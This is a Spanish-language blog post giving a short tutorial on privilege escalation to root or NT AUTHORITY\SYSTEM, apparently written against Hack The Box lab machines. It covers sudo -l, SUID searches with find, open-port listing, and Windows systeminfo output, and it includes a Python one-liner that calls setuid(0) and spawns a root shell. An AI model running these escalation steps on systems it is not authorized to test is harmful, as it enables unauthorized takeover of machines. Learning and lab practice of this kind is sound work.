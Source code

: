 ```yaml
---
date: 2021-11-15T01:14:05.000Z
layout: post
comments: true
title: Escalar privilegios
subtitle: 'para obtener acceso a root o a NT authority system'
description: >-
image: >-
  http://imgfz.com/i/pLYBOku.png
optimized_image: >-
  http://imgfz.com/i/pLYBOku.png
category: ciberseguridad
tags:
  - escalada
  - privilegios
  - root
  - NT authority system
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


El usuario root en Linux es el usuario que posee mayor nivel de privilegios. De hecho, es el único que tiene privilegios sobre todo el sistema en su globalidad, así como el responsable de las tareas administrativas.

De este modo, cuando tu, o cualquier programa, quiera llevar a cabo una acción que requiera permisos de superusuario, de alguna manera se les tendrá que conceder o denegar estos privilegios. Pero la pregunta es si soy un usuario común, ¿puedo ser root, sin necesidad de contraseña?. La respuesta es que si con ciertos pasos que veremos a continuación aprovechando las vulnerabilidades que dejan los usuarios administradores.

#Linux

## Sudo

Una manera de escalar privilegios es a través del siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ sudo -l
```

y ahí aparecerá un binario en el cuál podremos obtener acceso root siguiendo los pasos que nos indican en [GTFOBins](https://gtfobins.github.io/).

## SUID

Otra manera es buscando en /usr/bin, algún binario que contenga un permiso cuyo carácter sea ```s``` en lugar de ```x```.

```bash
┌─[user@user]─[/]
└──╼ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
```

Ahora también podemos buscar todos los binarios SUID a través de ```find```, con el siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

## Puertos abiertos en la máquina

```bash
┌─[user@user]─[/]
└──╼ ss -lnpt
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         128                0.0.0.0:23               0.0.0.0:*        users:(("python3",pid=829,fd=3))                                               
LISTEN    0         4096             127.0.0.1:631              0.0.0.0:*                                                                                       
LISTEN    0         4096                 [::1]:631                 [::]:*                                                                                       
```
En este caso hay una página web en la máquina la cual podremos visualizar por medio de [chisel](https://github.com/jpillora/chisel).

## Binarios

Otra forma de hacerlo es chequear que binarios contienen permisos de ejecución para un usuario:

```bash
┌─[user@user]─[/]
└──╼ ls -l /bin/ | grep rwxrwx
lrwxrwxrwx 1 root   root           8 Mar 13  2020 pydoc3 -> pydoc3.8
lrwxrwxrwx 1 root   root          12 Mar 13  2020 pygettext3 -> pygettext3.8
lrwxrwxrwx 1 root   root           9 Mar 13  2020 python3 -> python3.8
lrwxrwxrwx 1 root   root          16 Mar 13  2020 python3-config -> python3.8-config
lrwxrwxrwx 1 root   root          33 Jan 27  2021 python3.8-config -> x86_64-linux-gnu-python3.8-config
```

Aquí podríamos escalar privilegios a través de ```Python```, siguiendo los pasos que nos muestran en [GTFOBins](https://gtfobins.github.io/).

```bash
┌─[user@user]─[/]
└──╼ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'

┌─[root@root]─[/]
└──╼ whoami
root
```

# Windows

En el caso de Windows se podría realizar a través de ```systeminfo```, para así poder averiguar vulnerabilidades del sistema:

```
C:\>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

![1](http://imgfz.com/i/rFQc3RH.png)
